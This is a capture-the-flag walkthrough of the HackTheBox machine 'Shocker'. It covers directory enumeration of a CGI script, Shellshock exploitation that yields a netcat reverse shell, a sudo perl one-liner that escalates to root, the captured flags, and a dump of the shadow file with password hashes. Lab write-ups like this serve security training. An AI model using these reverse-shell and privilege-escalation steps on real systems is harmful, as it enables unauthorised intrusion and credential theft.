 # HackTheBox - Shocker - 10.129.229.19

## Enumeration

- Nmap scan
```
Nmap scan report for 10.129.229.19
Host is up (0.62s latency).
Not shown: 65430 filtered tcp ports (no-response), 104 closed tcp ports (conn-refused)
PORT   STATE SERVICE    VERSION
80/tcp open  tcpwrapped
2222/tcp open  EtherNetIP-1
```

- Directory enumeration

```
$gobuster dir -u http://10.129.229.19 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.19
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 296]
/index.html           (Status: 200) [Size: 137]
/server-status        (Status: 403) [Size: 301]

Progress: 4615 / 4615 (100.00%)
===============================================================
Finished
===============================================================

$gobuster dir -u http://10.129.229.19/cgi-bin -w /usr/share/wordlists/dirb/common.txt -x txt,sh,conf,html,js 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.19/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,txt,sh,conf,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 118]

Progress: 27690 / 27690 (100.00%)
===============================================================
Finished
===============================================================

```

- On visiting http://10.129.229.19/cgi-bin/user.sh the file gets downloaded on to the system

```
$cat user.sh 
Content-Type: text/plain

Just an uptime test script

 06:10:52 up  1:16,  0 users,  load average: 0.00, 0.01, 0.00

```

- From here it was confusing where to advance, but I got a hint that it has got something to do with the machine's name `shellshock` :)

## RCE

Upon researching I found:

- Shellshock also known as Bashdoor, disclosed on 24th September 2014

- CVE-2014-6271

- Exploitation:

https://blog.cloudflare.com/inside-shellshock/


![Alt text](rce.png?raw=true "Rce")

- On the attacker machine start listener `nc -lnvp <port>`

```
 $nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.16.21] from (UNKNOWN) [10.129.229.19] 45382
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id 
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt
2339eb2297d62b935e05c9ccd46be729

```

## Privilege escalation

- On checking sudo privileges granted to `shelly` user

```
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

Refer to https://gtfobins.github.io/

```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash";'
sudo perl -e 'exec "/bin/bash";'
whoami
root
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Shocker:/usr/lib/cgi-bin# cd /root
root@Shocker:~# cat root.txt
ce15e2cd7b34bf39f31648e0d0ead5da

```

## Beyond root

- Shadow file

```
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQdPUAH.:17431:0:99999:7:::
daemon:*:17001:0:99999:7:::
bin:*:17001:0:99999:7:::
sys:*:17001:0:99999:7:::
sync:*:17001:0:99999:7:::
games:*:17001:0:99999:7:::
man:*:17001:0:99999:7:::
lp:*:17001:0:99999:7:::
mail:*:17001:0:99999:7:::
news:*:17001:0:99999:7:::
uucp:*:17001:0:99999:7:::
proxy:*:17001:0:99999:7:::
www-data:*:17001:0:99999:7:::
backup:*:17001:0:99999:7:::
list:*:17001:0:99999:7:::
irc:*:17001:0:99999:7:::
gnats:*:17001:0:99999:7:::
nobody:*:17001:0:99999:7:::
systemd-timesync:*:17001:0:99999:7:::
systemd-network:*:17001:0:99999:7:::
systemd-resolve:*:17001:0:99999:7:::
systemd-bus-proxy:*:17001:0:99999:7:::
syslog:*:17001:0:99999:7:::
_apt:*:17001:0:99999:7:::
lxd:*:17431:0:99999:7:::
messagebus:*:17431:0:99999:7:::
uuidd:*:17431:0:99999:7:::
dnsmasq:*:17431:0:99999:7:::
sshd:*:17431:0:99999:7:::
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba5jzf0:17431:0:99999:7:::
```